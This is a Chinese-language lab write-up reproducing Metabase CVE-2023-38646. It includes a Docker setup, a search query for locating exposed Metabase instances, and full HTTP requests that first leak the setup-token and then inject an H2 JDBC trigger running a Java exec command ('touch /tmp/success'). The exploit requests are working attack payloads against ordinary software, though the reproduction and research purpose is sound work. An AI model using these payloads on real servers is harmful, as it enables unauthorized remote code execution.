




# Metabase 未授权 JDBC 远程代码执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.46.6版本及以前，存在一处远程代码执行漏洞，未授权的用户可以使用JDBC注入在服务器上执行任意代码。

参考链接：

- https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
- https://blog.calif.io/p/reproducing-cve-2023-38646-metabase
- https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA

## 网络测绘

```
app="Metabase"
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase server 0.46.6：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：



## 漏洞复现

首先，需要先访问`/api/session/properties`来获取Metabase的`setup-token`：

```
GET /api/session/properties HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
```



要利用漏洞，必须要获取这个Token。

接着，将刚才获取的`[setup-token]`替换进下面这个请求后发送：

```
POST /api/setup/validate HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```



虽然 response code 为 400，但可以看到，`touch /tmp/success`已成功在Metabase容器中执行：

